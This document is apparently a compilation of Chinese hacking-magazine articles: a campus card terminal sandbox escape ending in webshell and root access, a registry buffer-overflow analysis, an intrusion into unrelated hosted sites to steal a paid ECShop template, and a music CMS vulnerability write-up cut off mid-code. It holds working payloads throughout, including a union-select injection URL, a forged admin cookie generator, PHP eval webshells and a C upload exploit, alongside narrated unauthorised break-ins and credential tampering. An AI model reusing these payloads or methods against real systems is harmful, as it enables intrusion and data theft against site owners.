先来说下大部分终端机的原理吧。大部分终端机（包括 ATM）都是采用浏览器+网页的形式进行服务端与客户端的交互。对于这样的终端，用户看到的与操作的实际上是一个被“禁锢”在沙盒里，始终保持全屏最大化的浏览器。不过我们可以利用浏览器中某些特殊情况，让其他拥有比浏览器还靠前的窗体，跳出总在最前的沙盒，进入后台终端和桌面。

在这个终端机上，我在一个很老的条款里找到了一个页面，里面包含这样一条消息“以邮件形式发给卡务中心（admin@***.com）”，点击几次，果然弹出 evolution 邮件管理器，如图1所示，看底部任务栏是 GNOME2，赶紧切换到第二个桌面，防止不小心点错再次跳回沙盒。因为如果能跳出沙盒的程序，限制只能单一运行，或者运行数量过多，会无法再次跳出沙盒的，需要注意这一点。
图1

本想进入终端 whoami 下查看权限，结果发现无法打开终端，开始以为是系统设置的问题，仔细想想可能是触摸屏有问题，不能双击，不能从开始菜单运行程序，自然也就不能 ifconfig，而且也没有屏幕键盘，只在机器下面有物理小键盘（小键盘上有“确定”“删除”）。于是单击文件夹再按确定，这样一级一级进入 /etc/sysconfig/network-scripts/，找到 ifcfg-eth1，打开可看到 IP 配置信息，如图2所示，终端机 IP 地址为 10.111.60.82，看起来应该是可以在校园网里 ping 到的。再打开 /etc/issue，查看 Linux 版本，得到结果为 Fedora Core release 4 (Stentz)。
图2

又翻了一会系统文件，没找到可利用的，回去继续渗透。直接搜系统信息，发现 Linux 内核版本是 2.6.11-1.1369_FC4，网上没有对应的远程溢出漏洞。扫了整个 C 段，发现很多机器都是活跃的，根据 82 这台机器（也就是我确定的终端机）开放了 21、22、111 和 5900 端口，找到9台同样的机器，并暂且确定为9台终端机。尝试了 21、22 和 5900 弱口令无解，111 无漏洞后，陷入困境。顺便说下，5900 端口是 Virtual Network Computing server，用于远程桌面连接。

再回到 C 段，有台机器引起了我的注意，222 这台机器名为“x”，开放了 80、5800 和 5900 端口（当时不知道哪根筋搭错了，寻思 C 段能够目录过去到目标机器，后来一想，这是终端机啊，又不是一台服务器上的 N+ 站点，搞了 C 段有什么用啊……不过这无意间的举动，却是我后来成功的关键一步）。

打开网站，没找到任何网站信息，看了下 URL 连接的参数，Google 和百度都没找到任何相应的网站，看样子这个网站应该是学校自己写的，扔进 Safe3 和穿山甲 4，都没跑出来任何注入点，不过后台倒是扫出来了。

试了 admin 弱口令组合，提示密码错误，再试了 dfafasdf，提示用户名不存在，确定 admin 管理员用户存在，如图3和图4所示。当来到“密码找回”的时候，看到有邮件验证码找回密码，看看能不能找回 admin 的密码进入后台。回到前台注册一个账号，继续寻找突破点。
图3
图4

注册成功后点击找回密码，邮箱接收到验证码 9Y3G4H，回来继续，如图5所示。
图5

利用 burp 抓包，如图6所示，只有一个 data 参数，应该是一种能够解密的算法得到的密文，最终确定是 base64 加密的。解密后得到密文“validateCode=9Y3G4H&iffgicd=NU34DBD3FAU3FHIDHFHD&userid=k******j&newPwd=FFFFFFFF&dateKey=2013”，其中发现了我的新密码 FFFFFFFF，验证码 validateCode=9Y3G4H，还有最重要的用户名 userid=k*******j。尝试将 userid 改为 admin，burp 发包，response 显示修改密码成功！
图6

直接找到后台登录，成功进入。在后台查找了半天，最终也没找到能上传或者备份数据库的地方，再次陷入困境。正当困惑的时候，忽然看到左下角竟然有个 tomcat 的图标，点击进去，竟然是 tomcat 的默认管理页面！打开 ChangeLog，找到版本号。

记得 Tomcat 6 有个 war 版本漏洞，可以得到 shell，不过前提是得到 tomcat 的用户名和密码，这可以用工具跑，来试试吧。找了个相对强大的字典，再加上 222 这个 IP 地址，扔进“牛族 Tomcat”暴力破解，非常幸运，跑出来了！如图7所示。
图7

居然是弱口令 tomcat！好了，直接利用 war 漏洞，将 JSP 马打包为 job.war 文件，上传后，访问 10.111.60.222/tomcat6.0/job，输入密码得到 webshell，如图8所示。再看权限，竟然直接就是 administrator 权限，也不用搞远程桌面了。翻看目录寻思跨过去到终端机目录 10.111.60.82，可是无论怎么找，都没找到终端机目录。忽然想起，我渗透这个站干什么，对于渗透终端机又没有任何用！
图8

正当我哭笑不得的时候，忽然看到了一个目录，名字为“synjones”，等等，这不是那个终端机的生产厂商么？打开之后里面只有一个 config.doc，看样子像是配置文档！下载打开之后，发现真的是终端机的配置文档，如图9所示。
图9

这是给我的通关彩蛋吗？根据上面的说明，用 vncviewer 登录，密码为 szpbq8。下载 vnc viewer，登录，直接远程控制！再用同样的方法，即刻跳出沙盒，如图10所示（后来想起来，火狐浏览器可以直接按 F11 跳出全屏的）。
图10

打开终端，执行 whoami，提示是 xzx，好吧，利用 http://sebug.net/paper/linux_exp/，对应 Linux 版本 exp，提权，得到 Root 权限，最终完成整个渗透过程！

### 后记

后来得知这个 Word 文档不过是厂商的默认配置文档，也就是说管理员并没有更改密码！其实终端机也只是一台看起来很安全的机器而已，因为 ATM 与货币的紧密联系，让我们产生了终端机都是很安全的错觉。但正是这种错觉，让机器的管理者也产生了偷懒、不更改默认密码的坏习惯再次上演。渗透期间做了很多按常规讲与渗透终端机无关的工作，但最后竟然有意无意地得到了机器配置说明，成了决定性的工作，从而一举攻破终端机。本人没多少水平，但敢做，敢去尝试，这可能也就是最终成功的关键因素吧。希望大家一起努力，共同进步！

### OSVDB-94390 注册表溢出漏洞分析

文/图 木羊

本文要介绍的漏洞相当特别，是通过导入注册表文件来触发溢出漏洞的。按 OSVDB 的描述，为“contains an overflow condition that is triggered as user-supplied input is not properly validated when passed via the 'Registration Code' field”。相信在很多人的印象中，注册表一般是保存配置信息、验证是否注册的地方，谁能想到在这里居然成了一个溢出点！可是请别忘了，注册表也是一串数据，读取注册表也需要用到缓冲区，凭什么就不能溢出呢？先让我们看看相关注册表的结构，如图1所示。
图1

右边共有5个注册表项，其中“Serial”即为“序列号”，这也是触发漏洞的关键——溢出数据的来源——但我们要先寻找的是执行流中的溢出之处。思路是：既然是注册表漏洞，那就先找到相应的 API。注册表操作相关的 API 通常以“Reg”开头，如创建注册表项的 `RegCreateKeyExA/W`、读取注册表项值的 `RegQueryValueExA/W`、写入注册表项值的 `RegSetValueExA/W`，以及关闭注册表操作句柄的 `RegCloseKey`（文中 A/W 的意思分别指 ASCII 和宽字符所对应的 API）。

OD 载入漏洞程序 EasyLanFolderShare.exe，想知道程序调用了哪些 API，我们可以通过 Ctrl+N，找到注册表相关的操作，如图2所示。
图2

从中可以看到，程序调用了几项与注册表相关的 API，这里我们只关心读取注册表项值的 RegQueryValueExA，跟进调用该 API 的地方。

```asm
0041A8B2    |.  50            push    eax                     ; |ValueName
0041A8B3    |.  8B43 04       mov     eax, dword ptr [ebx+4] ; |
0041A8B6    |.  50            push    eax                     ; |hKey
0041A8B7    |.  E8 68440900   call    004AED24                ; \RegQueryValueExA


```

运行程序，在到达溢出点前，程序会两次调用 RegQueryValueExA，等到第二次，也就是函数参数 ValueName 为“Serial”时，单步执行 API 调用，然后对缓冲区，也即函数参数 Buffer 指向的内存地址下内存访问断点，本例为 0x1483288，如图3所示，之后将断在如图4所示的位置。
图3
图4

接着需要跳过旁枝末节，两次 Ctrl+F9，让 OD 自动执行到函数并返回。

```asm
00406819   .  8D55 B4        lea     edx, dword ptr [ebp-4C]
0040681C   .  8D45 FC        lea     eax, dword ptr [ebp-4]
0040681F   .  E8 B84D0900    call    0049B5DC                ; 0049B5DC
00406824   .  FF4D 84        dec     dword ptr [ebp-7C]
00406827   .  8D45 B4        lea     eax, dword ptr [ebp-4C]
0040682A   .  BA 02000000    mov     edx, 2
0040682F   .  E8 784D0900    call    0049B5AC                ; 0049B5AC
00406834   .  FF4D 84        dec     dword ptr [ebp-7C]
00406837   .  8D45 B8        lea     eax, dword ptr [ebp-48]
0040683A   .  BA 02000000    mov     edx, 2
0040683F   .  E8 684D0900    call    0049B5AC                ; 0049B5AC
00406844   .  8B45 FC        mov     eax, dword ptr [ebp-4]
00406847   .  E8 18030000    call    00406B64                ; Here
```

在第4个 Call，也即 0x00406847 处单步步入。这个函数比较长，这里只截取存在溢出漏洞的重点部位。

首先是通过堆栈传过来的参数获取缓冲区地址。

```asm
00406DB7    8B55 EC          mov     edx, dword ptr [ebp-14]
00406DBA    EB 05            jmp     short 00406DC1     ; 00406DC1
00406DBC    BA 7D374B00      mov     edx, 4B377D
00406DC1    33C0             xor     eax, eax
00406DC3    8BFA             mov     edi, edx
```

现在 edi 已经指向缓冲区的起始地址，接下来的代码将通过字符串扫描指令计算字符串长度。扫描字符串指令 scas 指令共有3种，为 scasb、scasw 及 scasl，分别对应 byte、word 和 dword，这里使用的是有 repne 前缀的 scasb（在 0x00406DCE）。

```asm
00406DC5    83C9 FF          or      ecx, FFFFFFFF
00406DC8    8DB5 B8FDFFFF    lea     esi, dword ptr [ebp-248]
00406DCE    F2:AE            repne   scas byte ptr es:[edi]
00406DD0    F7D1             not     ecx
00406DD2    2BF9             sub     edi, ecx
00406DD4    8BD1             mov     edx, ecx
00406DD6    87F7             xchg    edi, esi
00406DD8    C1E9 02          shr     ecx, 2
```

现在 ecx 已经保存了最终结果，再次提醒，这里使用的是 scasb，也就是按 byte 扫描。接着开始赋值缓冲区的字符串，使用的是带 rep 前缀的 movs 指令。movs 指令同样有3种，为 movsb、movsw 和 movsd，分别对应 byte、word 和 dword，这里使用的是 movsd，也即以 dword 为单位复制数据，源地址为 ds:[esi]，目的地址为 es:[edi]，复制单位个数保存在 ecx 中，也即为刚才计算得到的字符串长度。

```asm
00406DDB    8BC7             mov     eax, edi
00406DDD    F3:A5            rep     movs dword ptr es:[edi], dword ptr [esi]


```

当完成 0x00406DDD 后，查看 SEH 链表，发现已经被溢出了。

为什么上文一再提醒需要留意计数单位呢？因为这个特别的漏洞，成因正是读写所用的计数单位不同所致，具体是指字符串长度计算单位不同：一个为 scasb，以 byte 为单位；一个为 movsd，以 dword 为单位。因此实际复制的长度为实际长度的4倍，覆盖了正常的堆栈。也许当时程序员打了个盹，或者手稍微抖了一下，将 b 写成 d，但就是这么一个不仔细看都看不出来的疏忽，造成了这个特别的溢出。

## 记一次 ECShop 模板“扒”

文/图 非安全

最近要做几个网站，其中一个是独立商城，我考虑了两套程序 ECShop 和 ShopEX，不过当前的任务是先得到网站模板。在百度上搜了半天，有几个看中的，但几乎都是收费的。由于各种预算的问题，当然能省就省了，于是模板“扒”开始了。

首先当然是寻找类似模板的网站了，在百度搜关键字：“inurl:goods.php?id= 护肤 洁面乳”，出现的都是这一类商城程序，在里面挑选比较漂亮的首页模板，经过一番筛选，终于锁定了一个 ECShop 制作的网站。

ECShop 的程序目前我没有最新 0Day，所以只能老老实实地旁注。从工具里能查询出来包括目标站一共有12个站点，如图1所示。
图1

先找软柿子捏，很自然地选择了“**有限公司”之类的网站，习惯性地要先扫描下后台地址，之后再打开软件，输入网址，自动扫描可利用注入！半分钟之后软件给出了一个结果，如图2所示，看到“可能”这两字我顿时失望了，因为长期使用这款软件的经验告诉我，可能就是可能性不大的意思！
图2

同时把网址放到“报毒”里查了下，果然误报的可能性很大！接着打开后台扫描的结果查看，没有扫出后台地址，但是看到了 phpMyAdmin，还发现根目录下 config 文件夹的状态居然是 200，如图 3 所示。这意味着什么？意味着 85.5% 会出现文件夹泄漏漏洞，就是有可读权限！点开链接后，证实了我的判断！如图 4 所示。并且发现环境是 PHP+Apache Win2003，半喜半忧，因为是可读权限，可以利用的程度很大，但因为是 Apache 环境，也就没有 IIS6 的解析漏洞可利用。
图 3
图 4

工具扫完了，现在开始人工操作了。点开网站到首页看了下，发现是一个 PHP 编写的网站，在网站首页的头部发现一个会员中心的链接以及搜索框，我眼前顿时一亮了！因为有 60% 以上的概率能碰上搜索型注入！可在输入 “a%' and 1=1 and '%'='a%' and 1=2 and '%'='” 之后，事实告诉我碰上了那 40%！之后又点进会员中心，想注册一个会员进去看看有没有上传可利用！点击进去却发现直接跳到后台了，我说怎么没有扫出后台地址呢，原来还在后面加了几个后缀字符串，如图 5 所示。琢磨了下“fh”可能对应公司名“飞和”，“wz”又代表什么？先不管了，测试了一下弱口令+or，发现进不去，于是很不甘愿地先放在一边，去研究服务器里其他一些网站，希望能节省一点时间！
图 5

但是接下来的事实告诉我，没有明显的注入！更可恶的是，服务器里 70% 的网站扫出来的目录几乎都一样，每个网站根目录都有 phpMyAdmin，而且扫不出后台地址！唯一两个扫出后台地址的，却因没有账号密码而登录不了后台！

整理了一下思路，有可读权限，PHP+Apache Win2003 环境，有两个后台地址，有几个工具扫出疑似注入的地址。要么手工检测注入点是否属于工具误报，要么继续寻找突破点！我选择了后者，因为我发现有一个网站被我刻意地回避了！（最后事实告诉我正是这个选择让我找到了关键的突破点！）这个网站是物流运营公司，还是国际性的，我当然不想动它，但是没办法，到了这一步，我就悄悄地看看而已，绝对不乱动任何东西。当我扫描到图 6 所示的目录并点击进去的时候，我顿时豁然开朗，没错，就是传说中的 eWebEditor 编辑器！如图 7 所示。
图 6
图 7

但这不是重点，重点是 admin 的弱口令就让我进去了，如图 8 所示。接下来从理论上来说，拿 shell 就不是问题了。
图 8

换上独立的 IE6 浏览器，因为这个编辑器只有 IE6 能正常打开！当我在样式管理添加上各种敏感后缀格式，点开“预览->图片上传”时，却出现编辑器图片上传功能被破坏的 JS 错误提示！不过好在样式多，换了一个编辑器样式就正常了。很畅通无阻地上传了 PHP 一句话图片上去，却遇到了无奈的问题！所有上传的文件访问都是 404 错误，换其他格式也一样。这是什么情况？明明传上去了还是图片格式，就算这个目录设置了不解析脚本，好歹也给我一个图片显示吧！百思不得其解，随手翻看网页，想着要怎么办的时候，突然想起 eWebEditor 编辑器有列目录漏洞，利用这个漏洞可以看到后台地址，说不定还能看到根目录备份的数据库文件，或者整个网站的打包备份文件，不就可以进后台拿 shell 了吗？或者有整个网站源代码，找到数据库密码也行，思路多着呢！

正要行动，却发现连接都是 POST 传送的，于是祭起工具开始抓包，如图 9 所示。在“upload.php?id=11”后面加上参数“&dir=../..//”，很顺利地跨到了目标目录，如图 10 所示。
图 9
图 10

bmh 就是目标站的目录了，下面那个 data 不知道是什么，不管它。看第三个目录 dfzx，拼音缩写指向服务器里的一个整形类的网站，点开可以看到整个网站的所有文件和目录，如图 11 所示，后台地址果然被修改了。当我看到 dfzx.sql 这个文件时，暗自松了口气！因为可以确定整个服务器里的站点都是 PHP+MySQL 的，没有 Access 库可以让我下载，所以总的来说，这个列目录漏洞算是比较鸡肋的了！
图 11

果然不出所料，这是个数据库备份文件。在 IE 里点开这个 .sql 文件后，在一堆 SQL 语句里发现了后台账号和密码，如图 12 所示，为 32 位 MD5 加密，在 cmd5 里解出来是 123456。用此登录，却显示登录失败，返回去看了下文件创建时间：2012-3-10……

```sql
PRIMARY KEY (`use_id`),
UNIQUE KEY `use_name` (`use_name`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8 AUTO_INCREMENT=17;

--
-- 转存表中的数据 `cyk_use`
--

INSERT INTO `cyk_use` (`use_id`, `use_name`, `use_pwd`, `use_ip`)
(15, '胖子珂', 'e10adc3949ba59abbe56e057f20f883e', '115.192.139.1...'),
(16, '东方整形', 'e10adc3949ba59abbe56e057f20f883e', '127.0.0.1', ...)


```

图 12

难道管理员改密码了？不死心的我开始想碰运气的时候，才想起哪有什么密码可给我用的。随后我灵机一动，把用户名换成 admin，密码还是 123456，却人品爆发地进去了！如图 13 所示。
图 13

在后台一番查找后，终于发现了一个可以上传图片的地方，而且还是没有过滤任何格式的！直接上传了一个 PHP 一句话小马上去，顺利拿到 Shell，如图 14 所示。
图 14

接下来就是直接跨目录到目标站 bmh 下载模板了。ECShop 要下载模板，一般最简单的方法就是去后台直接备份下载！要去后台就要在数据库里查找后台密码，ECShop 的数据库字符串文件在 data 文件夹下的 config.php 文件里，找到密码后看到还有一个 .bak 的备份文件，顺手打开却看到了意外惊喜，如图 15 所示，是最有价值的 root 权限！连接上去就可以看到服务器里所有的数据库了！

```php
// database host
$db_host = "localhost:3306";

// database name
$db_name = "bmh";

// database username
$db_user = "root";

// database password
$db_pass = "******";

// table prefix
$prefix = "ecs_";

$timezone = "Asia/Shanghai";
$cookie_path = "/";
$cookie_domain = "";
$session = "1440";

define('EC_CHARSET','utf-8');
define('ADMIN_PATH','admin');
define('AUTH_KEY','this is a key');


```

图 15

找到目标站的数据库，进入 ecs_admin_user，查询到有 6 个不同等级的管理员，两个最高权限管理的 MD5 密码是无法破解出来，看来密码设置得很变态，不过没关系，root 都有了，还怕密码变态！先把原始的 MD5 密码值记录下来，然后直接用一个 update 语句“update ecs_admin_user set password='e10adc3949ba59abbe56e057f20f883e' where user_id=1”，将密码改成 123456 的 MD5 值。接着登录，发现依然显示密码错误，这就奇怪了！直接改成明文 123456 也依然登录不了！试着破解其他几个管理账户，却只破解了一个，只有添加新闻和产品的权限，进不了模板管理！

思考了一会，立马想到把这个账户权限改成最高管理员不就可以了嘛！然后想到如果要改回去的话，在菜刀里构造 update 语句很复杂，而且还易出错！因为 ECShop 判断权限的字段很长很多。猛然想到还有 phpMyAdmin，用 root 密码登录进去操作，就太方便了！立刻把这一大堆英文权限字符串改成 all，表示拥有所有的权限！

顺利登录进去后，却发现管理员为了防止模板被下载，把模板的链接给隐藏了，这难得到我吗？除非把更换备份模板的页面删了！在后台目录后面加上地址“template.php?act=list”就出现模板选择的页面了，如图 16 所示，接下来直接备份后下载即可，整个模板“占”也就到此结束了。
图 16

整个过程最具亮点和悲剧的地方都在 eWebEditor 后台上，先是上传后返回让人郁闷的 404 错误，之后在列目录漏洞上峰回路转，接下来的一切就只是时间的问题了！真可谓是山重水复疑无路，柳暗花明又一村。

### 前卫音乐多漏洞分析

文/图 ywledoc

最近在阅读“前卫音乐 V2.0 BETA（20130709）版”代码的过程中，发现了多个漏洞，在此与大家分享。

### /home/libs/common.php 注入漏洞

在 /home 目录里有 index.php 文件，此文件无任何功能，只是包含了 /home/libs/common.php。下面是存在问题的代码。

```php
<?php
include_once(CSDJ_PATH.'/conn.php');
ob_start();
//允许动作
$dos = array('down', 'index', 'dance', 'gd', 'gx', 'pick', 'reco', 'feed', 'pic', 'gbook', 'skin', 'blog');
//获取变量
$usym=$_SERVER['HTTP_HOST'];
$uall=explode(".",$usym);
$op=CS_Request("op");
$uid=CS_Request("uid"); //问题参数
$id=CS_Request("id");
$pages=CS_Request("pages");
if(empty($uid)) $uid=$uall[0];
$op = (!empty($op) && in_array($op, $dos))?$op:'index';
if(empty($uid)) exit('抱歉,会员 UID 为空，参数错误!');
if($op=='skin'){
    if(isset($_COOKIE["cd_name"])){
        $uid=$_COOKIE["cd_id"];
    }else{
        exit("<script>window.location='http://'..cd_weburl.'/i/login.php'</script>");
    }
}
global $db;
$row=$db->getrow("Select * from ".tname('user')." where cd_id='".$uid."'"); //代入查询
?>
```

代码中，$uid 经过了 CS_Request 的处理，如果 CS_Request 没有过滤好，那么 $uid 就有可能被带入下面的 SQL 语句进入查询。下面看下 CS_Request 的实现。

```php
function CS_Request($pi_strName, $pi_Def = "", $pi_iType = CS_TXT)
{
    if ( isset($_GET[$pi_strName]) )
        $t_Val = trim($_GET[$pi_strName]);
else if ( isset($_POST[$pi_strName]))
    $t_Val = trim($_POST[$pi_strName]);
else
    return $pi_Def;
// 这里是数字型参数的过滤
if ( CS_INT == $pi_iType)
{
    if (is_numeric($t_Val))
        return $t_Val;
    else
        return $pi_Def;
}

// String
$t_Val = str_replace("&", "&amp;",$t_Val);
$t_Val = str_replace("<", "&lt;",$t_Val);
$t_Val = str_replace(">", "&gt;",$t_Val);
if ( get_magic_quotes_gpc() )
{
    $t_Val = str_replace("\\\"", "&quot;",$t_Val);
    $t_Val = str_replace("\\'", "&#039;",$t_Val);
}
else
{
    $t_Val = str_replace("\"", "&quot;",$t_Val);
    $t_Val = str_replace("'", "&#039;",$t_Val);
}
return $t_Val;
}
```

可以看到，CS_Request 对数字型的过滤好了；对于字符型的参数，CS_Request 过滤了 `&`、`<`、`>`、`"`、`'`。

$uid 是数字型的参数，本来应该过滤好的，但是代码中对 CS_Request 的调用方式不对。正确的应该为 `$uid=CS_Request("uid", 0, CS_INT)`，作者的调用方式为 `$uid=CS_Request("uid")`，等同于 `$uid` 作字符串过滤。

对于字符串，CS_Request 过滤了单、双引号，本来也应该安全；但是 SQL 查询语句 `$row=$db->getrow("Select * from ".tname('user')." where cd_id=".$uid)` 却没有将 `$uid` 用单引号包含起来，安全语句应为 `$row=$db->getrow("Select * from ".tname('user')." where cd_id='".$uid."'")`。

提交如下的 SQL 注入语句即可，结果如图 1 所示。

```sql
http://127.0.0.1/home/index.php?uid=1&op=23 and 1=2 union select 1,2,3,concat(CD_AdminUserName,0x3c,0x3c,CD_AdminPassWord),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46 from musicdj_admin limit 0,1


```
图 1

### /admin/admin_check.php 权限绕过漏洞

上面的漏洞只是注入，还要破解 MD5，这个漏洞则可以直接添加管理员。进入 /admin 目录，随便打开一个文件，都会调用函数 `admincheck(7)`，看名字就知道是用于检查权限的。Admincheck 的实现在 /admin/admin_check.php 里。

```php
function admincheck($CD_Permission){
if($_COOKIE['CD_Permission']<>''){
$menuarr=explode(',',$_COOKIE['CD_Permission']);
$adminlogined='False';
for($i=0;$i<count($menuarr);$i++){
if($menuarr[$i]==$CD_Permission){$adminlogined='True';}
}
if($adminlogined=='False'){AdminAlert('出错了，您没有进入本页面的权限！','',2);}
}else{
AdminAlert('出错了，您没有进入本页面的权限！','',2);
}
}
if(empty($_COOKIE['CD_AdminID'])){
AdminAlert('您没有进入本页面的权限，本次操作已被记录！','admin_login.php',0);
}else if($_COOKIE['CD_Login']!=md5($_COOKIE['CD_AdminID'].$_COOKIE['CD_AdminUserName'].$_COOKIE['CD_AdminPassWord'].$_COOKIE['CD_Permission'])){
AdminAlert('您没有进入本页面的权限，本次操作已被记录！','admin_login.php',0);
}
}
```

这段代码只做两个检查：

- 1. `$_COOKIE['CD_Permission']` 中某一项要跟传入的参数相匹配
- 2. `$_COOKIE['CD_Login']` ==`md5($_COOKIE['CD_AdminID'].$_COOKIE['CD_AdminUserName'].$_COOKIE['CD_AdminPassWord'].$_COOKIE['CD_Permission'])`

以上两条都满足，就是管理员了，同时程序未对 `$_COOKIE` 做任何保护措施，能进后台就可以加管理，就可以上传。伪造利用 Firefox 的 Tamper Data 就行了。

用于生成 Cookie 的代码如下：

```php
<?php
$CD_Permission="1,2,3,4,5,6,7,8,9,10,11";
$CD_AdminID=1;
$CD_AdminUserName="ywledoc";
$CD_AdminPassWord=123;
$CD_Login=md5($CD_AdminID.$CD_AdminUserName.$CD_AdminPassWord.$CD_Permission);
echo "CD_Permission=1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11;CD_AdminID=1;CD_AdminUserName=ywledoc;CD_AdminPassWord=123;CD_Login=".$CD_Login."<br>";
?>


```

最终生成的 Cookie 如下：

`CD_Permission=1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11;CD_AdminID=1;CD_AdminUserName=ywledoc;CD_AdminPassWord=123;CD_Login=5317e16c7b3f5b2b283d481832e5b309`

替换后，访问 `/admin/admin_admin.php`，结果如图 2 所示。
图 2

## /admin/admin_mold.php 任意文件上传漏洞（需 GPC OFF）

利用上面那个漏洞，添加了一个管理员，登录后开始这一步。我们先看看漏洞代码：

```php
function Save(){
    $CD_Name=$_POST['FileName'];
    $CD_Path=$_POST['folder'];
    $CD_TempName=$_POST['tempname'];
    $CD_Content=stripslashes($_POST['content']);
    $F_Ext = substr(strrchr($CD_Name,'.'),1);
    $FileType = strtolower($F_Ext);
    if($FileType=='htm' or $FileType=='html' or $FileType=='shtml' or $FileType=='js' or $FileType=='css' or $FileType=='txt'){
        if(!$fp = fopen($CD_Path.$CD_Name,'w')) {
            AdminAlert('出错了，文件 '.$CD_Path.$CD_Name.' 没有写入权限！',
            '?action=templist&tempname='.$CD_TempName.'&dir='.$CD_Path.",1);
        }

        $ifile = new iFile($CD_Path.$CD_Name,'w');
        $ifile->WriteFile($CD_Content,3);
        AdminAlert('恭喜您，编辑模板文件成功！',
        '?action=templist&tempname='.$CD_TempName.'&dir='.$CD_Path.",0);
    }else{
        AdminAlert('出错了，操作已被禁止！',
        '?action=templist&tempname='.$CD_TempName.'&dir='.$CD_Path.",1);
    }
}


```

源码中 `if($FileType=='htm' or $FileType=='html' or $FileType=='shtml' or $FileType=='js' or $FileType=='css' or $FileType=='txt')` 会验证保存文件的后缀名，但是路径却是拼接出来的 `$CD_Path.$CD_Name`，而且 `$CD_Path` 没有做任何验证，可以直接传入 `%00` 进行截断，但 `%00` 是会被 GPC 转义，并且大多数网站都会打开 GPC，所以这个漏洞有些鸡肋。

利用方法为访问  
`/admin/admin_mold.php?action=templist&tempname=%C4%AC%C8%CF%C4%A3%B0%E6&dir=../skin/index/9ku/`，随便找一个模板进行编辑，写入一句话木马，如图 3 所示。点击提交，并用 Tamper Data 进行拦截，修改数据包如图 4 所示，得到的结果如图 5 所示。
图 3
图 4
图 5

## /admin/inc/uploads.php 任意文件上传漏洞（需 register_globals 为 ON）

这套程序管理员用于上传的流程为 `/admin/inc/upload.php -> /admin/inc/upload/uploadify.swf -> /admin/inc/uploads.php`，最终实现写文件是在最后一步。我们来看 `/admin/inc/uploads.php` 的实现。

```php
include "../../include/conn.php";
$id=SafeRequest("id","get");
$action=SafeRequest("ac","get");
switch($action){
    case 'music':
        $targetFiles="../../upload/musicurl/".$id.".".fileext($_FILES['Filedata']['name']);
        $fileexts="*.mp3;*.wma";
        $filetypes="歌曲文件";
        break;
    case 'musicpic':
        $targetFiles="../../upload/musicpic/".$id.".".fileext($_FILES['Filedata']['name']);
        $fileexts="*.jpg;*.gif";
        $filetypes="歌曲图片";
        break;
    case 'special':
        $targetFiles="../../upload/special/".$id.".".fileext($_FILES['Filedata']['name']);
        $fileexts="*.jpg;*.gif";
        $filetypes="专辑图片";
        break;
}
if (!empty($_FILES)) {
    $tempFile = $_FILES['Filedata']['tmp_name'];
    $targetFile = $targetFiles;
    //$targetPath = $_SERVER['DOCUMENT_ROOT'] . $_REQUEST['folder'] . '/';
    //$targetFile = str_replace('//','/',$targetPath) . $_FILES['Filedata']['name'];
    $fileTypes = str_replace('*.', '', $fileexts);
}
$fileTypes = str_replace(';', '|', $fileTypes);
$typesArray = split("\\|", $fileTypes);
$fileParts = pathinfo($_FILES['Filedata']['name']);
if (in_array($fileParts['extension'], $typesArray)) {
    // Uncomment the following line if you want to make the directory if it doesn't exist
    // mkdir(str_replace('//','/',$targetPath), 0755, true);
    //setcookie("targetFile", $targetFile,time()+86400,"/");
    move_uploaded_file($tempFile, $targetFile);
}
```

`$fileexts` 用于确定允许上传的类型，`$targetPath` 确定上传的路径，而这两者都取决于 `$action`。如果输入一个不合理的 `$action` 值，那么 `$targetPath`、`$fileexts` 都会变成未定义，在 `register_globals` 为 ON 的情况下，就可以通过 `$_POST` 直接给 `$targetPath`、`$fileexts` 赋值了。有时也可以在 `register_globals` 为 Off 的情况下实现，但有一个条件，就是需要以下代码：

```php
foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
    foreach($$_request as $_key => $_value) {
        $_key{0} != '_' && $$_key = daddslashes($_value);
    }
}
```

这也是经典的全局变量覆盖漏洞代码。这里没有这段代码，只能依赖 `register_globals` 为 ON，同样 `register_globals` 一般都是 OFF，所以这个漏洞也有点鸡肋。练手，写了一段 C POST 提交文件的代码，如下：

```c
#include <stdio.h>
#include <WinSock2.h>
#include <Windows.h>
#pragma comment(lib,"ws2_32")

int main(int argc, char *argv[])
{
    PVOID    pBuff = NULL;
    SOCKET   hSock = INVALID_SOCKET;
    int      iResult = 0;
    WSADATA  wsaData = {0};
    sockaddr_in clientServer = {0};
    hostent   *pclientAddr = {0};

    iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
    if (iResult != 0)
        return 0;

    do {
        if (argc != 3) break;

        pBuff = VirtualAlloc(NULL, 0x2000, MEM_COMMIT, PAGE_READWRITE);
        if (pBuff == NULL)
            break;

        sprintf((PCHAR)pBuff,
            "POST /%s/admin/inc/uploads.php HTTP/1.1\r\n"
            "Host: %s\r\n"
            "User-Agent: Mozilla/5.0\r\n"
            "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
            "Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3\r\n"
            "Accept-Encoding: gzip, deflate\r\n"
            "Connection: keep-alive\r\n"
            "Content-Type: multipart/form-data; boundary=-----------------------------1681160893454\r\n"
            "Content-Length: 539\r\n\r\n"
            "-----------------------------1681160893454\r\n"
            "Content-Disposition: form-data; name=\"targetFiles\"\r\n"
            "\r\n"
            "../../upload/special/ywledoc.php\r\n"
            "-----------------------------1681160893454\r\n"
            "Content-Disposition: form-data; name=\"fileexts\"\r\n"
            "\r\n"
            "*.php\r\n"
            "-----------------------------1681160893454\r\n"
            "Content-Disposition: form-data; name=\"Filedata\"; filename=\"yijuma.php\"\r\n"
            "Content-Type: application/octet-stream\r\n"
            "\r\n"
            "<?php eval($_POST[paxmac]);?>\r\n"
            "-----------------------------1681160893454\r\n"
            "Content-Disposition: form-data; name=\"submit\"\r\n"
            "\r\n"
            "Submit\r\n"
            "-----------------------------1681160893454--\r\n\r\n",
            argv[2], argv[1]);

        hSock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
        if (hSock == INVALID_SOCKET)
            break;

        clientServer.sin_family = AF_INET;
        clientServer.sin_port = htons(80);
        pclientAddr = gethostbyname(argv[1]);
        if (pclientAddr == NULL)
        {
            printf("网址解析错误，请检查输入！\n");
            break;
        }
        clientServer.sin_addr.s_addr = *((ULONG*)(pclientAddr->h_addr_list[0]));
